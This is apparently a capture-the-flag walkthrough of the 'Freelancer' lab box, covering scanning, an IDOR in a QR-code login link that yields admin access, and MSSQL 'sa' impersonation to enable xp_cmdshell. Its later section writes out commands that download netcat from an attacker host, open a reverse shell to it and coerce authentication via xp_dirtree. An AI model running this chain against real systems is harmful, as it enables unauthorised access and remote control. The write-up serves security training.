# Freelancer
## Host file setup
```
sudo nxc smb 10.129.66.33 --generate-hosts-file /etc/hosts  
SMB         10.129.66.33    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```
nmap -p- --min-rate=2000 -sT -Pn dc.freelancer.htb -vv

Nmap scan report for dc.freelancer.htb (10.129.66.33)
Host is up, received user-set (0.014s latency).
rDNS record for 10.129.66.33: DC.freelancer.htb
Scanned at 2026-10-02 16:54:50 BST for 11s
Not shown: 65509 closed tcp ports (conn-refused)
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack
80/tcp    open  http             syn-ack
88/tcp    open  kerberos-sec     syn-ack
135/tcp   open  msrpc            syn-ack
139/tcp   open  netbios-ssn      syn-ack
389/tcp   open  ldap             syn-ack
445/tcp   open  microsoft-ds     syn-ack
464/tcp   open  kpasswd5         syn-ack
593/tcp   open  http-rpc-epmap   syn-ack
636/tcp   open  ldapssl          syn-ack
3268/tcp  open  globalcatLDAP    syn-ack
3269/tcp  open  globalcatLDAPssl syn-ack
5985/tcp  open  wsman            syn-ack
9389/tcp  open  adws             syn-ack
47001/tcp open  winrm            syn-ack
49664/tcp open  unknown          syn-ack
49665/tcp open  unknown          syn-ack
49666/tcp open  unknown          syn-ack
49667/tcp open  unknown          syn-ack
49671/tcp open  unknown          syn-ack
49680/tcp open  unknown          syn-ack
49681/tcp open  unknown          syn-ack
49684/tcp open  unknown          syn-ack
49689/tcp open  unknown          syn-ack
49711/tcp open  unknown          syn-ack
55297/tcp open  unknown          syn-ack
```

### Nmap
```
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985 -A --min-rate=200 -sT -Pn dc.freelancer.htb 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-02 17:00 +0100
Nmap scan report for dc.freelancer.htb (10.129.66.33)
Host is up (0.014s latency).
rDNS record for 10.129.66.33: DC.freelancer.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          nginx 1.25.5
|_http-server-header: nginx/1.25.5
|_http-title: Did not follow redirect to http://freelancer.htb/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-10-02 21:00:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10|11|2012|2022|2016 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2019 (97%), Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows 10 1709 - 22H2 (94%), Microsoft Windows 10 1909 (92%), Microsoft Windows 11 24H2 - 25H2 (92%), Microsoft Windows Server 2012 R2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Server 2016 (90%), Microsoft Windows 10 21H2 (90%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)
Null auth enabled but not able to use it to enumerate

Guest account is disabled

## HTTP (80)
There is quite a lot of functionality on this page

There is two different user registrations, one for freelancers and one for employers

### Feroxbuster
```python
feroxbuster -u http://freelancer.htb/ -C 404,503

301      GET        0l        0w        0c http://freelancer.htb/admin => http://freelancer.htb/admin/
```

Found an admin page



Nothing obvious bypasses at the moment

## Logging in as employer 



But if i go to the logon page and try to logon as an employer, i can then go to forgot password. I am prompted for my security questions and then answering them right means i can change the password

Then ill reset the password to `Password1234!`

Then im redirected back to the logon page where i can log in as `hacker`



Now ill explore the dashbaord

## Decoding QR code



There is the option to generate a QR code to make logon easier



checking the requests this makes in my proxy shows some interesting requests

The generate endpoint generates the code and contains the PNG contents for the QR



Using curl i can request new QR codes using my session

I can also use `output <filename>` to save it to a file

```python
curl http://freelancer.htb/accounts/otp/qrcode/generate/ -H 'Cookie: csrftoken=Fi4bSgT5Q70ZR49FKmQiECDvoJOeq80E; sessionid=42hkr7ol6zil1257xws6b1u3qxe5nptt' --output qr.png
```

I can then feed this into a tool to decode the contents of the QR code

```python
zbarimg qr.png                              
QR-Code:http://freelancer.htb/accounts/login/otp/MTAwMTE=/801bc3f684a8477d1492e3c600193255/
scanned 1 barcode symbols from 1 images in 0.01 seconds
```

This gives me a URL 



Opening this in a new private window allows me to logon without any credentials

So if i can figure out how the URL is generated i should be able to logon as any user without credentials


If i decode part of the URL, it simply decodes to the user account ID



This is shown here when i request the user profiles using this ID



From my enumeration earlier i know the admin is ID `2`

So since the codes become void after 5 minutes, my theory is the final part of the URL is a randomly generated string that becomes invalidated

## Logging in as the admin via IDOR

```python
curl http://freelancer.htb/accounts/otp/qrcode/generate/ -H 'Cookie: csrftoken=Fi4bSgT5Q70ZR49FKmQiECDvoJOeq80E; sessionid=42hkr7ol6zil1257xws6b1u3qxe5nptt' --output qr.png
  % Total    % Received % Xferd  Average Speed  Time    Time    Time   Current
                                 Dload  Upload  Total   Spent   Left   Speed
100    965 100    965   0      0   4520      0                              0
```

Ill delete the old image and get a new image

```python
zbarimg qr.png
QR-Code:http://freelancer.htb/accounts/login/otp/MTAwMTE=/0889731ba95f3a9d08679a8d0392375d/
scanned 1 barcode symbols from 1 images in 0.01 seconds
```

And now i see the last section is different

```python
echo 2 | base64            
Mgo=
```

To test my theory ill just take the admins ID `2` then encode it and replace `MTAwMTE=` with the new value

```python
http://freelancer.htb/accounts/login/otp/Mgo=/0889731ba95f3a9d08679a8d0392375d/
```

Leaving me with this



I am now logged in as the admin

Now im logged in as the admin i might be able to access the `/admin` endpoint



Just as expected

## RCE through MSSQL user impersonation

https://hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html



There is a terminal to interact with mssql which will come in handy



Nothing really in the current DB

XP_cmdshell is disabled and i cannot enabled it

```python
exec master.dbo.xp_dirtree '\\10.10.14.61\any\thing'
```

Also coercing auth back to me got me a hash for the user `sql_svc` but i cannot crack it

There is no linked servers



It looks like i can impersonate the `sa` user, which means i can enabled and execute commands over `xp_cmdshell`



Ill then set the logon at the start of the query then re enable xp_cmdshell

```python
EXECUTE AS LOGIN = 'sa'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```



I now have code execution

However the user does not have SeImpersonatePrivilege

```python
EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'whoami';
```

## Reverse shell



A powershell reverse shell payload fails, it gets blocked by AV

Ill try doing this with `nc64.exe` instead

```python
EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'powershell -c wget http://10.10.14.61/nc64.exe -o C:\ProgramData\nc64.exe';
```



```python
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.66.164 - - [03/Oct/2026 14:20:57] "GET /nc64.exe HTTP/1.1" 200 -
```

I managed to transfer netcat

```python
EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'powershell -c dir -force C:\ProgramData\';
```



As seen here the file exists

```python
EXECUTE AS LOGIN = 'sa'; EXEC xp_cmdshell 'powershell -c C:\ProgramData\nc64.exe -e cmd 10.10.14.61 1337';
```



I now have a shell

```python
PS C:\Users> dir
dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----        10/3/2026   2:03 PM                Administrator                                                         
d-----        5/28/2024  10:23 AM                lkazanof                                                              
d-----        5/28/2024  10:23 AM                lorra199                                                              
d-----        5/28/2024  10:22 AM                mikasaAckerman                                                        
